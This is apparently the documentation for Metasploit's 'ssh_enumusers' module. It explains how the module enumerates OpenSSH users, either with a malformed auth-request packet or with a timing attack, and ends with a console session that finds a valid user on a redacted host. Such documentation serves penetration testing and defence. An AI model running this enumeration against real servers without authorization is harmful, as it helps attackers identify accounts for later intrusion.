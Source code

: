 ## Intro

This module uses a malformed packet or timing attack to enumerate users on
an OpenSSH server.

Testing note: invalid users were logged, while valid users were not. YMMV.

## Actions

**Malformed Packet**

The default action sends a malformed (corrupted) `SSH_MSG_USERAUTH_REQUEST`
packet using public key authentication (must be enabled) to enumerate users.

**Timing Attack**

On some versions of OpenSSH under some configurations, OpenSSH will return a
"permission denied" error for an invalid user faster than for a valid user,
creating an opportunity for a timing attack to enumerate users.

## Options

**USERNAME**

Single username to test (username spray).

**USER_FILE**

File containing usernames, one per line.

**THRESHOLD**

Amount of seconds needed before a user is considered found (timing attack only).

**CHECK_FALSE**

Check for false positives (random username).

## Usage

```
msf5 > use auxiliary/scanner/ssh/ssh_enumusers
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(scanner/ssh/ssh_enumusers) > echo $'wvu\nbcook' > users
[*] exec: echo $'wvu\nbcook' > users

msf5 auxiliary(scanner/ssh/ssh_enumusers) > set user_file users
user_file => users
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using malformed packet technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set action Timing Attack
action => Timing Attack
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using timing attack technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_enumusers) > creds
Credentials
===========

host         origin       service       public  private  realm  private_type
----         ------       -------       ------  -------  -----  ------------
[redacted]   [redacted]   22/tcp (ssh)  wvu

msf5 auxiliary(scanner/ssh/ssh_enumusers) >
```
